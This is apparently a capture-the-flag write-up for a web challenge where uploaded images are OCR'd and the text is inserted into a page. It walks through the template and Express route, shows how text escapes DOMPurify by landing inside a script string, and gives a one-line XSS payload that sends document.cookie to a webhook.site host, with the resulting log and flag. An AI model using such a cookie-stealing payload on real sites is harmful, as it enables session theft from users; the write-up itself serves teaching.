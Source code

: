 # i-see-no-vulnerability
> With AI we are entering a new era! Join us in this exciting journey with our visionary app!

> When solving this challenge a new one will be unlocked which is a sequel to this one.

## About the Challenge
We were given a website and a source code (You can download the source code [here](1c24ae229fff8eb7ac53c1252e52b12e.zip)). And this website has a functionality where the uploaded images will be read using OCR, and if text is found in the image, the text will be displayed on the website.


[Image extracted text: We are offering visionary, cutting-edge AI
We are secure; scalable, robust; innovative, stupid, intelligent: We offer advanced professionally
texts on your images
Who trusted us:
Want your logo here? Contact us!
Want a demo? Test your great images here for FREE!
Select PNG Image:
Choose a file_
Upload]


This is when I uploaded a photo containing the text `Hi daffainfo`


[Image extracted text: I'ma
visionarylll
see_
Hi daffainfo]


## How to Solve?
If you look at the source code, our input will go into a script HTML tag and div tag

```html
<head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1" />
    <title>Image {{IMAGE}}</title>
    <link
        rel="stylesheet"
        href="https://cdn.jsdelivr.net/npm/bulma@0.9.4/css/bulma.min.css" />
</head>
<body>
    <section class="hero">
        <div class="hero-body">
            <p class="title">I'm a visionary!!!</p>
            <p class="subtitle">I see...</p>
            <div id="vision">{{VISION_TEXT}}</div>
        </div>
    </section>
    <footer class="footer">
        <div class="content has-text-centered">
            <p><a href="/">Go back</a></p>
            <p>
                NSFW? <form method="post" action="/report/{{IMAGE}}"><input type="submit" value="Click here to report" class="button" /></form>
            </p>
        </div>
    </footer>
    <script>
        const text = "{{VISION_TEXT}}";
        if (text.length === 0) {
            vision.innerHTML = "<img src='/i-see-nothing.gif' />";
        }
    </script>
</body
```

And because the program filters image text using `DOMPurify`, we cannot use HTML tags to perform XSS, so we cannot place an XSS payload in `div` tags, and the other option is to place the XSS payload in `script` tags.

```javascript
app.get("/result/:uuid", (req, res) => {
	const { uuid } = req.params;
	if (isValidUUID(uuid)) {
		const unsafe_text = visionedDict[uuid];
		if (unsafe_text === undefined) {
			return res.redirect("/");
		}
		const text = DOMPurify.sanitize(unsafe_text);
		const page = readFileSync("./templates/result.html", "utf8")
			.replaceAll("{{VISION_TEXT}}", text)
			.replaceAll("{{IMAGE}}", uuid);
		res.send(page);
	} else {
		res.status(400).send("Invalid UUID");
	}
});
```

This is the final payload I used to obtain the flag:


[Image extracted text: location replace( "https://webhook sitelba3adl6c-cd20-42cc-8727-81446f1d2828/2"+document.cookie)//]


Upload the image and then press the report button


[Image extracted text: Request Details
Permalink
Raw content
as
REQUESTS (1/500)
Newest First
Search Query
GET
https:IIwebhook sitelba3ad16c-cd20-42cc-8727-81446f1d2828/7FLAG-ping%7
Bazcfbb9ccdOd1b649cbf99669930092b%7D
Host
57.128.196.218
Whois
Shodan
Netify   Censys
GET
#8371d 57.128.196.218
09/12/2023 06:10.29
Date
09/12/2023 06.10.29 (2 days ago)
Size
0 bytes
Time
0.000 sec
ID
8371dfd4-a178-407d-80e8-gbef24ba04ff
Copy]


```
ping{a2cfbb9ccd0d1b649cbf99669930092b}
```